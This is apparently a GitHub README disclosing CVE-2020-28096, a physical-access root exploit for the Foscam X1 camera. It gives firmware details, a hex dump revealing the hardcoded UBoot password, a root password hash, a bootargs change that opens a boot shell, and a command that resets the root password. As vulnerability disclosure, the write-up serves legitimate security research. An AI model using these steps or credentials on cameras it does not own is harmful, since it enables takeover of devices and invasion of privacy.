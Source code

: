 <table>
<tr>
	<td colspan=2><b><h2 align=center>Equipment Overview
<tr>
	<td colspan=2 align=center>
		<center>
		<img width=200px align=center src="https://raw.githubusercontent.com/cecada/Foscam-Model-X1-Root-Access/main/images/20200626_081025.jpg"> 
		<img width=200px align=center src="https://raw.githubusercontent.com/cecada/Foscam-Model-X1-Root-Access/main/images/20200702_153529.jpg"> 
		<img width=200px align=center src="https://raw.githubusercontent.com/cecada/Foscam-Model-X1-Root-Access/main/images/20200823_081724.jpg">
<tr>
	<td colspan=1> <b>Wifi Camera: 
	<td colspan=1>Foscam Model X1
<tr>
	<td colspan=1><b>Firmware Version:
	<td colspan=1>1.14.2.4
<tr>
	<td colspan=1><b>Linux Version:
	<td colspan=1>3.10.14__isvp_turkey_1.0__
<tr>
	<td colspan=1><b>GCC Version:
	<td colspan=1>4.7.2
<tr>
	<td colspan=1><b>UBoot Version:
	<td colspan=1>2013.07 (May 05 2019 - 17:08:36)
<tr>
	<td colspan=1><b>Busybox Version:
	<td colspan=1>v1.22.1
<tr>
	<td colspan=1 width=25%><b>Busybox Functions:
	<td colspan=1><p align="justify">[, [[, acpid, addgroup, adduser, arp, arping, ash, awk, base64, basename, blkid, bootchartd, brctl, cal, cat, catv, chgrp, chmod, chown, chpasswd, chroot, clear, cmp, cp, cryptpw, cttyhack, date, dd, deallocvt, delgroup, deluser, depmod, devmem, df, dhcprelay, diff, dirname, dmesg, dnsd, dnsdomainname, dos2unix, du, dumpleases, echo, ed, egrep, env, ether-wake, fakeidentd, false, fbset, fdflush, fdformat, fdisk, fgrep, find, findfs, flash_eraseall, flashcp, flock, fold, free, freeramdisk, fsync, ftpget, ftpput, fuser, getopt, getty, grep, groups, gzip, halt, hd, hexdump, hostid, hostname, httpd, hush, hwclock, id, ifconfig, ifdown, ifenslave, ifplugd, ifup, inetd, init, insmod, iostat, ip, ipaddr, ipcalc, ipcrm, ipcs, iplink, iproute, iprule, iptunnel, kill, killall, killall5, klogd, less, linux32, linux64, linuxrc, ln, logger, login, logname, logread, losetup, ls, lsmod, lsof, lsusb, makedevs, md5sum, mdev, mesg, mkdir, mkdosfs, mkfs.vfat, mknod, mkpasswd, mkswap, mktemp, modinfo, modprobe, mount, mountpoint, mpstat, mv, nameif, nbd-client, nc, netstat, nmeter, nslookup, ntpd, passwd, pgrep, pidof, ping, ping6, pivot_root, pkill, pmap, poweroff, printenv, printf, ps, pscan, pstree, pwd, pwdx, rdate, rdev, readlink, readprofile, realpath, reboot, renice, reset, resize, rev, rm, rmdir, rmmod, route, rtcwake, sed, seq, setarch, setconsole, sh, sha1sum, sha256sum, sha512sum, slattach, sleep, smemcap, sort, stat, sulogin, sum, swapoff, swapon, switch_root, sync, sysctl, syslogd, tail, tar, tcpsvd, telnet, telnetd, test, tftp, tftpd, time, timeout, top, touch, tr, traceroute, traceroute6, true, tty, ttysize, tunctl, udhcpc, udhcpd, udpsvd, umount, uname, unix2dos, unzip, uptime, usleep, uudecode, uuencode, vconfig, vi, vlock, volname, watch, watchdog, wc, wget, whoami, whois, xargs, yes, zcip
<tr>
	<td colspan=1><b>CPU Info: 
	<td colspan=1>Ingenic Xburst
<tr>
	<td colspan=1><b>Hardward Access: 
	<td colspan=1>SPI, UART
<tr>
	<td colspan=1><b>SPI Flash:
	<td colspan=1>BY25Q128AS (<a href="https://github.com/cecada/Foscam-Model-X1-Root-Access/blob/main/documents/1904091402_BOYAMICRO-BY25Q128ASSIG_C383794.pdf">Spec Sheet</a>)
<tr>
	<td colspan=1><b>HTTP Admin Access: 
	<td colspan=1> http://Assigned IP Address:88/
</table>

<h2>Boot to Root (CVE-2020-28096)</h2>

<p align="justify">Though other CVEs and write-ups have greatly detailed Foscam's reliance on static UART/Uboot password the X1 model appears to have bucked the trend. Though dumping the firmware via SPI is trivial, but <a href = "https://github.com/santeri3700/opticam_o8_hacking">as this relatively recent git details</a> the hash $1$xY/YSetV$dbTV4dHv6gWzmAlfYTboG1 isn't known to have been cracked. Also, UBoot is password protected. :(

<p align="justify"><b>Note</b> Flashrom (as of 10/25/2020) does not natively support the Boya Microelectronics SPI chip this camera uses. I added the functionality and created a pull request to the flashrom repo which is currently pending. However, in the meantime, you can <a href = "https://review.coreboot.org/cgit/flashrom.git/commit/?id=fe014acf4418f071e982b49bbcc1c5db4d801dfc">use this patch</a> if you want to compile it yourself.  

<p align="justify">However, upon examining a hex dump of the dumped firmware we get the UBoot password.

```
00034240: 4869 7420 616e 7920 6b65 7920 746f 2073  Hit any key to s
00034250: 746f 7020 6175 746f 626f 6f74 3a20 2532  top autoboot: %2
00034260: 6420 0000 0a25 6473 7420 696e 7075 7420  d ...%dst input 
00034270: 5061 7373 7764 3a00 6970 632e 666f 737e  Passwd:.ipc.fos~
00034280: 0000 0000 0808 0825 3264 2000 3c49 4e54  .......%2d .<INT
00034290: 4552 5255 5054 3e0a 0000 0000 7365 7269  ERRUPT>.....seri
000342a0: 616c 0000 4352 4300 436b 7375 6d00 0000  al..CRC.Cksum...
```
00034270: 5061 7373 7764 3a00 6970 632e 666f 737e  Passwd:.**ipc.fos~**

Now we can login to UBoot and modify the UBoot bootargs enviroment variable to something like:

```
setenv bootargs 'console=ttyS1,115200n8 mem=100M@0x0 rmem=28M@0x6400000 mtdparts=jz_sfc:256k(boot),3072k(kernel),11264k(appfs),1024k(patch),256k(backup),512k(para) lateshell earlyprintk initcall_debug rdinit=/bin/sh'
```

When you reboot you will drop into a shell. However, most of the Foscam components are not loaded yet. However, this is a mere pause. All we want to do is change the admin password; which is accomplished by:

```
echo root:test | /usr/sbin/chpasswd -m && /linuxrc
```

This command changes the root password to test, hashes it in the form expected by the Linux build, and then continues the booting of the camera. Once booted, log in with... you guessed it username: root, password: test.

